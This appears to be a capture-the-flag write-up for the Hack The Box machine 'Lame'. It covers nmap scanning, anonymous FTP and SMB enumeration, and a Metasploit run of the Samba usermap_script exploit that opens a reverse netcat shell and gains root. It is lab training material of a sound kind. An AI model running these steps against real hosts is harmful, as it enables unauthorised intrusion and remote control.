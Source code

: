 # [Lame](https://app.hackthebox.com/machines/Lame)

## Overview

- Linux machine
- Easy

## Scan

```shell
┌──(kali㉿kali)-[~]
└─$ nmap -sC -Pn 10.10.10.3
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-20 06:34 EST
Nmap scan report for 10.10.10.3
Host is up (0.22s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE
21/tcp  open  ftp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_clock-skew: mean: 2h31m05s, deviation: 3h32m09s, median: 1m04s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-02-20T06:35:38-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Nmap done: 1 IP address (1 host up) scanned in 66.17 seconds
```

## Quick questions

1. What is ssh-hostkey?

    A host key is a cryptographic key used for authenticating computers in the SSH protocol

2. What is netbios-san?

    is a network service that enables applications on different computers to communicate with each other across a local area network (LAN)

3. What is microsoft-ds?

    Microsoft-DS is the name given to port 445 which is used by SMB (Server Message Block).

## Analysis

1. FTP

    - version: vsFTPd 2.3.4
    - allows anonymous login:

    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ ftp 10.10.10.3
    Connected to 10.10.10.3.
    220 (vsFTPd 2.3.4)
    Name (10.10.10.3:kali): anonymous
    331 Please specify the password.
    Password: 
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls -a
    229 Entering Extended Passive Mode (|||58500|).
    150 Here comes the directory listing.
    drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
    drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
    226 Directory send OK.
    ftp> pwd
    Remote directory: /
    ftp> 
    ```

    - gg search vulnerabilities: [VSFTPD v2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)

2. SMB

    - version: OS: Unix (Samba 3.0.20-Debian)

    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ smbclient -L 10.10.10.3                      
    Password for [WORKGROUP\kali]:
    Anonymous login successful

    Sharename       Type      Comment
    ---------       ----      -------
    print$          Disk      Printer Drivers
    tmp             Disk      oh noes!
    opt             Disk      
    IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
    ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
    Reconnecting with SMB1 for workgroup listing.
    Anonymous login successful

    Server               Comment
    ---------            -------

    Workgroup            Master
    ---------            -------
    WORKGROUP            LAME

    ```

    - gg search vulnerabilities: [Samba "username map script" Command Execution](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

## Exploit

just use the [Samba "username map script" Command Execution](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/) module in msfconsole and get the flag:

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat

msf6 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.42.132   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.2
LHOST => 10.10.14.2
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] Command shell session 1 opened (10.10.14.2:4444 -> 10.10.10.3:33741) at 2023-02-20 09:21:27 -0500

whoami
root
```
